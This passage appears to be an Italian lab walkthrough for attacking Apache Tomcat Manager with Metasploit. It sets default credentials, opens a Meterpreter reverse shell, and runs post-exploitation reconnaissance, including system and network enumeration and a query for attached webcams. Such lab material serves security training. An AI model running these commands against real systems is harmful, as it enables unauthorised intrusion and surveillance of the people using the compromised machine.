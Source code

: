#### 3. Exploit con Metasploit

##### 3.1 Configurazione dell'Exploit

- **Avviare Metasploit su Kali Linux**:
  ```bash
  msfconsole
  ```
- **Cercare gli exploit disponibili per Tomcat**:
  ```bash
  search tomcat
  ```
- **Selezionare l'exploit Tomcat Manager Upload**:
  ```bash
  use exploit/multi/http/tomcat_mgr_upload
  ```
- **Configurare i parametri dell'exploit**:
  ```bash
  set RHOSTS 192.168.13.151
  set RPORT 8080
  set HttpUsername admin
  set HttpPassword password
  set payload java/meterpreter/reverse_tcp
  set LHOST 192.168.13.151
  set LPORT 7777
  ```
- **Lanciare l'exploit**:
  ```bash
  exploit
  ```

#### 4. Raccolta delle Evidenze sulla Macchina Compromessa

##### 4.1 Verifica se la macchina è virtuale o fisica

- Eseguire il comando:
  ```bash
  sysinfo
  ```
- Per ulteriori verifiche, accedere alla shell:
  ```bash
  shell
  systeminfo
  ```

##### 4.2 Recupero delle impostazioni di rete

- Tornare a Meterpreter ed eseguire:
  ```bash
  ipconfig
  ```
- Annotare le configurazioni di rete.

##### 4.3 Controllo delle webcam

- Dalla shell di Windows, eseguire:
  ```bash
  wmic path win32_pnpentity get name | findstr /i "camera"
  ```
